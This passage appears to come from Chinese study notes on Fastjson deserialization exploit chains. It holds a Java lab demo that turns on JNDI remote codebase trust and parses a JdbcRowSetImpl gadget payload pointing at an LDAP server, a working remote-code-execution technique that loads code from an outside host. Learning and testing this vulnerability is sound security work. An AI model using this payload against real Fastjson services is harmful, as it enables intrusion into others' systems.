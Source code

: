 然后运行，这样不能测试RCE，但也可以看到访问

![image-20250912180713276](./images/反序列化及利用链/image-20250912180713276.png)

#### 二

修改代码为：

```java
package FastjsonUnserializationDemo.One;

import com.alibaba.fastjson.JSON;

public class FastjsonRce {
    public static void main(String[] args) {
        // 设置JNDI信任远程codebase
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");

        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://10.56.93.60:1389/dyhorb\", " +
                "\"autoCommit\":true" +
                "}";
        try {
            JSON.parse(payload);
        } catch (Exception e) {
            System.out.println("发生异常，但这在测试中是预期的: " + e.getMessage());
            e.printStackTrace();
        }
    }
}
```
